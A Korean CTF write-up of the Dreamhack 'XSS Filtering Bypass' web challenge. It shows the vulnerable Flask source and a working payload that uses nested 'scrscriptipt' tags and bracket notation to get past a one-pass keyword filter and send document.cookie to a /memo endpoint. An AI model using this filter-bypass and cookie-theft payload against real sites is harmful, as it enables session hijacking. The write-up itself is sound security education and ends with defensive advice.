 ```yaml
---
title: "[CTF] 드림핵 XSS Filtering Bypass"
date: 2025-09-19 21:30:00 +0900
categories: [CTF, Web]
tags: [CTF, XSS]
description: "드림핵 XSS Filtering Bypass"
toc: true
---
```


## 문제 개요

이번 문제는 간단한 XSS 검사/필터가 적용된 웹 애플리케이션이다. 필터는 `script`, `on`, `javascript:` 세 문자열을 제거하지만, 제거는 단순 문자열 치환 방식으로 한 번만 수행된다. 이 점을 이용해 필터를 우회하면 팝업이나 쿠키 탈취 등 XSS를 통한 공격을 할 수 있다.

* 취약 엔드포인트: `/vuln?param=...` (반환값을 그대로 렌더링)
* 필터링 로직: `script`, `on`, `javascript:` 을 소문자 기준 포함 시 제거
* FLAG 흐름: `/flag`에서 내부적으로 체크하는 `check_xss()`가 브라우저(Chrome headless)를 통해 취약점을 탐지하면 FLAG 관련 쿠키가 실행 컨텍스트에 주입되어 동작한다.

---

## 문제에 제공된 원본 소스코드

아래는 문제에서 제공된 `app.py` 전체 소스코드이다.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)

def xss_filter(text):
    _filter = ["script", "on", "javascript:"]
    for f in _filter:
        if f in text.lower():
            text = text.replace(f, "")
    return text

@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    param = xss_filter(param)
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)
```

---

## 내가 실제로 푼 방법

필터 함수 `xss_filter()`를 자세히 보면 다음과 같다.

```python
_filter = ["script", "on", "javascript:"]
for f in _filter:
    if f in text.lower():
        text = text.replace(f, "")
```

* 핵심: 필터는 소문자 기반으로 검사하고, `replace()`로 해당 문자열을 제거한다. 그러나 `replace()`는 원본 `text`에 대해 대소문자 구분하여 수행하므로, 소문자 패턴만 제거하고 대문자나 중간에 끊긴 형태는 그대로 남을 수 있다.
* 우회 아이디어: `script` 단어를 `scrscriptipt`처럼 중첩해서 넣으면 `script`가 제거되어도 남는 부분으로 태그를 구성할 수 있다. 또한 `location`에는 `on`이 포함되어 있어 필터에서 제거되므로 `document.location` 같은 표준 접근이 깨진다. 이를 피하기 위해 `document['locatio'+'n']`처럼 대괄호 표기법으로 우회한다.

### 내 페이로드

아래 페이로드는 교육/풀이 목적이며, 서버의 필터를 우회해 `document.cookie`를 `/memo`로 전송한다.

```html
<scrscriptipt>document['locatio'+'n'].href = "/memo?memo=" + document.cookie;</scrscriptipt>
```

* 동작 원리:

  1. 브라우저(헤드리스 크롬)가 페이지의 반환값을 HTML로 해석하면 `scrscriptipt`에서 내부 `script` 부분이 일부 제거되어 최종적으로 유효한 `<script>` 태그가 된다.
  2. `document['locatio'+'n']`은 `document.location`과 동일하게 동작하지만 `on` 문자열이 필터에 걸리지 않는다.
  3. 최종적으로 `location.href`를 이용해 `/memo?memo=`으로 `document.cookie`를 전송하면, `memo` 엔드포인트가 이 값을 기록하고 공격자가 확인 가능하게 된다.

---

## 재현 흐름

1. 공격자: `/flag` 페이지에서 POST로 `param`에 위 페이로드 전달
2. 서버: 내부 체크(헤드리스 브라우저)가 `/vuln?param=...`에 접속하고 필터가 적용된 응답을 브라우저가 렌더링
3. 브라우저: 필터 우회 페이로드 실행 → `document.cookie`가 `/memo?memo=`에 전송
4. 공격자: `/memo`에서 기록된 쿠키를 확인하여 FLAG 획득

---

## 왜 이게 가능했나

* 필터 로직이 단순 문자열 제거 방식이며 대소문자와 조합 변형을 고려하지 않았다.
* `replace()`가 원본 대소문자를 보존하므로, 소문자 검사만으로 우회가 가능한 경우가 생긴다.
* 브라우저 자바스크립트의 다양한 문법 표현(예: `document['locatio'+'n']`)을 사용하면 필터가 제거한 문자열을 우회할 수 있다.

---

## 마무리

이 문제는 '단순 문자열 제거' 방식의 필터가 얼마나 취약한지를 잘 보여주는 사례다. XSS 필터링을 구현할 때는 정교한 문맥 기반 필터링(또는 완전한 출력 인코딩)을 사용하거나, 가능한 경우 사용자 입력을 HTML로 직접 삽입하지 않는 설계가 필요하다.

